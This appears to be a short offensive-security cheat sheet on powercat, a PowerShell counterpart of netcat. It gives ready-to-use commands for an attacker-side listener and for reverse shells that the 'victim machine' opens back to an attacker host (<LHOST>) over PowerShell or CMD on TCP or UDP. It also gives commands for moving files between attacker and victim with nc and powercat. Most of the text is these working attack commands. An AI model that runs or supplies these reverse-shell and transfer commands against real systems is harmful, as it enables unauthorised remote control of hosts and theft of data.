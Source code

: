# powercat

Powercat is essentially the PowerShell version of Netcat written by besimorhino.97. It is a script that we can download on a Windows host to take advantage of PowerShell's strengths and simplifies the creation of bind/reverse shells.

```bash
sudo pacman -S powercat # Arch Linux
```

{% embed url="https://github.com/besimorhino/powercat" %}

### Reverse shell

On our machine, we **listen** with **nc** (if it doesn't work, we pwsh and then import the **powercat.ps1** module and run it:

```bash
powercat -l -p <LPORT> -v
```

**Transfer the powercat.ps1 to the victim machine**, either on disk (in this case, we should also import the module) or in memory, and then **run** the following **command** to start a shell:

```bash
powercat -c <LHOST> -p <LPORT> -ep # PowerShell/TCP
powercat -c <LHOST> -p <LPORT> -e cmd # CMD/TCP
powercat -c <LHOST> -p <LPORT> -ep -u # PowerShell/UDP
```

### Transfer files

```bash
# Upload files to the victim machine
nc -nvlp 443 > $FILE # Attacker machine
powercat -c <LHOST> -p <LPORT> -i <PATH TO SAVE>
```
